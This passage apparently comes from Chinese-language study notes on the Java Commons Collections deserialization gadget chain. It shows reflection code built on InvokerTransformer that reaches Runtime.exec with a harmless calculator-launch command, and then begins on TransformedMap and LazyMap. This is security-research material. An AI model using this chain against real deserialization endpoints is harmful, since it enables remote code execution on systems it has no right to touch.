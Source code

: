 ## 0x01 sink InvokerTransformer

`Transformer implementation that creates a new object instance by reflection.`该类的主要作用是通过反射创建一个新的对象。

![image-20230303151230331](attachments/image-20230303151230331.png)

即 `InvokerTransformer#transform()`可以接收任何对象并作为结果返回，可以写出一个命令执行
```java
Transformer transformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});  
transformer.transform(Runtime.getRuntime());
```

但是 Runtime 没有继承 Serializable 接口不可序列化，因此需要改写为反射的写法。

```java
Transformer getMethodTransformer = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
Method getRuntimeMethod = (Method) getMethodTransformer.transform(Runtime.class);
Transformer runtimeTransformer = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null});
Runtime runtime = (Runtime) runtimeTransformer.transform(getRuntimeMethod);
Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});
execTransformer.transform(runtime);
```

## 0x02 TransformedMap

接下来继续找调用了`transform()`的方法，可以看到有 `LazyMap` 和 `TransformedMap`。

![image-20230306220530129](attachments/image-20230306220530129.png)
